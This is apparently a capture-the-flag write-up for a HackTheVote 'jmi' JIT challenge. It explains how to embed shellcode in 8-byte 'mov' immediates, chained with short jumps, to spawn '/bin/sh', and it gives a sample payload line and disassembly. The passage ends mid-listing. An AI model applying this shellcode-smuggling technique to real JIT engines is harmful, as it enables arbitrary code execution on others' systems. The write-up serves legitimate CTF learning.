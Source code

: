 Since these bytecodes are very simple and limited, they don't allow us to retrieve the flag directly in any way.  

The file has the following protections:  

```sh
[*] '/home/elchals/CTFs/HackTheVote/jmi/handout/challenge_patched'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```  

## Exploitation
Since the bytecode needs to be **JIT** compiled before it is executed, the program allocates a buffer of 0x41000 bytes with **rwx** permissions, where the shellcode will be written and executed.  
From the beginning, my idea was to exploit the **ADD** function, which is translated into the shellcode `mov rdi, value`, to inject smuggled shellcode within this `mov` instruction and then jump to this shellcode to execute it.  

The concept was clear, but finding a way to jump to my shellcode proved challenging and took me a few hours to figure out.  
First, I’ll explain how to use `mov` instructions to embed smuggled shellcode, and then I'll detail how I managed to jump to my shellcode to execute it.  

## Smuggled shellcode
When we execute a bytecode like ADD 0xdeadbeef, it is translated into shellcode like the following:  
```asm
   0x7ffff7f76000:	movabs rdi,0xdeadbeef
   0x7ffff7f7600a:	movabs rax,0x555555555400
   0x7ffff7f76014:	call   rax
```
Since the eight bytes of the `mov` instruction are under our control, we can use these eight bytes to write our shellcode there. With only eight bytes, we can't do much, but we can use multiple **ADD** bytecodes to write our shellcode in small 8-byte blocks.   However, we can’t use all eight bytes of each mov instruction because we need to jump from one block to the next.  

Each bytecode is translated into shellcode and then padded with **NOPs** to fill a 0x41-byte block. This means that if we write several ADD instructions in sequence, they will be separated by exactly 0x41 bytes. So, to jump from one block of our shellcode to the next, we need to make a jump of 0x41 bytes. The assembly opcodes for this jump are `0x39eb`. Since each jump occupies two bytes, this leaves us with six bytes for our shellcode plus two for the jump.  
For example, the following bytecode will allow me to execute `xor rax, rax, xor rsi, rsi`, and jump to the next block of shellcode.   
```py
ADD(0x39ebf63148c03148) # xor rax,rax - xor rsi,rsi + JMP
```
This is what my smuggled shellcode would look like to execute the `execve("/bin/sh", NULL, NULL)` syscall:  
```asm
   0x7ffff7f76004:	xor    rdi,rdi
   0x7ffff7f76007:	nop
   0x7ffff7f76008:	jmp    0x7ffff7f76043

   0x7ffff7f76043:	xor    rax,rax
   0x7ffff7f76046:	xor    rsi,rsi
   0x7ffff7f76049:	jmp    0x7ffff7f76084

   0x7ffff7f76084:	nop
   0x7ffff7f76085:	nop
```